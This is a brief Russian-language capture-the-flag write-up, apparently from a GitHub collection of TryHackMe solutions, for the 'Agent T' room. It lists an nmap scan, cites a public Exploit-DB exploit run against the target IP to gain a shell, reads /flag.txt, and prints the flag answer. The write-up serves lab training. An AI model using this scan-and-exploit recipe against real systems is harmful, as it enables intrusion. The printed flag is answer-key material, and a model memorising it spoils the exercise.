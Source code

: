 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Agent T](https://tryhackme.com/r/room/agentt) 

Всего 1 заданиe:
## Задание 1
Агент Т обнаружил этот веб-сайт, который выглядит вполне невинно, но что-то не так с реакцией сервера...

После развертывания уязвимой машины, подключенной к этой задаче, подождите пару минут, пока она ответит.

### Ответьте на вопросы ниже
Что такое флаг?
```commandline
nmap -Pn -sC -sV -A -T4 -p- <IP>
# https://www.exploit-db.com/exploits/49933
python exploit.py
<IP>
whoami
cat /flag.txt
```
```commandline
flag{4127d0530abf16d6d23973e3df8dbecb}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)